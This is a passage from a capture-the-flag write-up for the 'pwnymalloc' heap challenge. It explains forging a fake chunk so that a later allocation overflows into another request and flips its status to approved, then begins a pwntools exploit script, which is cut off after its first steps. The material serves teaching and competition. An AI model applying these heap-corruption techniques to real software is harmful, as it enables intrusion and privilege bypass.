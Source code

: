 The **prev\_chunk** seems to get the size at **0x555555559100-8** and the next\_chunk seems to get the size at **0x555555559100**, so we just make sure that we set these values as **0x0** (since we can control them in our 2nd request reason).

After resolving this, we can try to create our 3rd request reason, and we can see that the chunk would be allocated at our fake chunk and our data would be stored there.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>chunk allocated at our fake chunk</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>writing at our fake chunk</p></figcaption></figure>

Now we can easily overflow into the our 2nd request chunk and overwrite the **request->status** bit to **REQUEST\_APPROVED**.

### Solve Script

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("./chal")
url,port = "pwnymalloc.chal.uiuc.tf", 1337

if args.REMOTE:
    p = remote(url,port, ssl=True)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)

def option(n):
    p.clean()
    p.sendline(str(n).encode())

# Create a fake chunk inside this chunk, which indicates a size of 0x120 with PREV_IN_USE bit unset
option(3)
p.clean()
p.sendline(b'65')
p.clean()
```